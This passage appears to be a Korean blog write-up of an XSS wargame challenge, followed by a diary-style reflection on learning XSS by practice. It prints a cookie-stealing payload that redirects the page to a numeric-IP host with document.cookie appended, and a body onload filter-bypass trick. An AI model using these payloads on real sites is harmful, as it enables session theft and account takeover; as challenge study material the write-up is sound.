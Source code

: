 27번이랑 다를건 없는데 이걸로 다 풀림!
`>`을 html entity로 사용해서 우회하는 방법.
지금까지 계속 사용해왔던 공격 벡터라서 쉽게 생각할 수 있었습니다!

```
q=%3Cscript%3Elocation[`href`]=`http://757087622/?`%2bdocument[`cookie`];%3C/script%3E
```



**Payload 0x01** 지금 `hidden`가 사용되고 있어서 어떻게 할까 고민하다가…
페이지가 열릴 때마다 스크립트를 실행시키도록 하고 싶었다!

그래서 새롭게 진입하든, 뒤로가기로 진입하든 항상 이벤트를 발생시키는
body pageshow event를 사용해서 스크립트를 실행시키기로 했다!

body pageshow event 예시 중 `<body onload="myonload()" onpageshow="mypageshowcode()">`를 스크립트에 넣을겁니다!

> [body pageshow event](https://developer.mozilla.org/en-US/docs/Web/Events/pageshow)

그리고, `<`은 필터링이 안되니까 `<input type=hidden>`의 `>`를 사용하기 위해 뒤에 주석처리를 할 수 있습니다.

```
<body / onload=alert(1);//>
```

이렇게 보내게 되면

```
<body onload="alert(1); // <input"type = "hidden"> </body>
```

이렇게 reponse가 옵니다! 이렇게 성공시킬 수 있습니다!



뭔가 1번부터 열심히 달려왔는데 마지막에 이렇게 중복답안이 있으니 뭔가 허무하지 않나요…

그래서 지난번동안은 앞만 보고 달려왔다면, 이번에는 xss에는 답이 없다는 것을 보여드리고 싶었습니다.

xss가 아직도 살아있는 이유가 진짜 할 수 있는 방법은 여러가지고, 하나의 방법만 있는게 아니라 우회를 해야 되는 방법을 알고나면 정답은 여러가지인 재미있는 공격방식이기 때문입니다.



------



## 2. 일기 훔쳐보기

#### XSS 5일째 <날씨: 비옴 기분: 꿀꿀함>

`<주의>` 저 또한 뉴비들과 비슷한 수준이고, 이는 가르치려는 내용이 아니라 내가 느꼈던 것을 끄적어둔 것!



![img](https://blackperl-security.gitlab.io/img/post/2018-09-12-webtour-04/webtour05_4.png)



대학을 다니면서 이론으로만 공부하는게 얼마나 위험하고, 시간을 아껴쓰지 못한 공부법인지 알게 되었던 시간이었다.

이걸 해보지 못하고, 개발자 중에 xss를 못 막는 개발자는 일을 안하는 개발자라는 글을 본 적이 있다.
그리고 나는 그런가보다라는 생각을 했었다. 내 손으로 실습해보고 구현해본거 아니면 다른 사람 말을 믿고 그게 정답이라는 생각을 가지지 말자는 생각을 하게 되었다.
